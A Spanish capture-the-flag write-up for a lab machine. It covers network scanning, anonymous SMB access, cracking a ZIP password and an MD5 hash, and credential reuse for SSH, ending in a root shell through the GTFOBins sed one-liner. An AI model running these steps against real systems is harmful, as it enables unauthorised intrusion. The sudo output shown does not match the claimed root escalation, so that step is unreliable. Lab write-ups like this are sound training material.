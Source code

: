 
# 🕵️ Sedition (TheHackerLabs)

## ⚙️ Herramientas utilizadas

- `arp-scan`
- `nmap`
- `smbclient`
- `john`
- `rpcclient`
- `crackstation`
- `gtfobins`

---

## 🧭 Reconocimiento

### 🔍 Arp-scan

```bash
sudo arp-scan -I eth0 --localnet
```

```text
192.168.1.108   08:00:27:60:6a:ed       (Unknown)
```

- Resultado → la IP víctima es **192.168.1.108**

---

### 🛰️ Ping

```bash
ping -c 1 192.168.1.108
```

```text
PING 192.168.1.108 (192.168.1.108) 56(84) bytes of data.
64 bytes from 192.168.1.108: icmp_seq=1 ttl=64 time=1.63 ms
```

- Resultado → `ttl=64`, por lo que es una máquina **Linux**.

---

### 🔬 Nmap

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -n -vvv -Pn 192.168.1.108 -oN escaneo.txt
```

```text
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
65535/tcp open  ssh         OpenSSH 9.2p1 Debian
```

- Resultado → Se detecta un puerto SSH oculto en el **65535**.

---

## 🗂️ Enumeración SMB

### Listado de shares

```bash
smbclient -L 192.168.1.108 -N
```

```text
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
backup          Disk      
IPC$            IPC       IPC Service (Samba Server)
nobody          Disk      Home Directories
```

- El recurso `backup` es accesible anónimamente y contiene un archivo `secretito.zip`.

### Descarga y análisis del ZIP

```bash
smbclient //192.168.1.108/backup -N
smb: \> get secretito.zip
```

### Crackeo con `john`

```bash
zip2john secretito.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

- Contraseña encontrada: `elbunkermolagollon123`

---

## 👤 Enumeración de usuarios

```bash
rpcclient -U "" -N 192.168.1.108
> querydispinfo
```

- Usuario encontrado: **cowboy**

---

## 🔐 Acceso SSH (puerto 65535)

```bash
ssh cowboy@192.168.1.108 -p 65535
```

- Contraseña: `elbunkermolagollon123`
- Acceso exitoso

---

## 🚀 Escalada de privilegios

### `.bash_history` revela uso de MariaDB

```bash
mariadb -u cowboy -p elbunkermolagollon123
```

Se encuentra el siguiente hash de contraseña para el usuario `debian`:
```text
debian:7c6a180b36896a0a8c02787eeafb0e4c
```

- Se crackea con CrackStation → contraseña: `password1`

### Acceso como `debian`

```bash
ssh debian@192.168.1.108 -p 65535
# Contraseña: password1
```

### Permisos `sudo`

```bash
sudo -l
```

```text
(debian) NOPASSWD: /usr/bin/sed
```

### Ejecución de comando con `sed` (GTFOBins)

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

- Escalada a `root` exitosa.

---

## 🏁 Flags

```bash
cat /home/debian/flag.txt
cat /root/root.txt
```

---

## ✅ Lecciones aprendidas

- Los servicios ocultos en puertos altos pueden revelar accesos críticos.
- Contraseñas descubiertas en un servicio a menudo son reutilizadas.
- Archivos `.bash_history` y bases de datos pueden contener vectores de escalada.
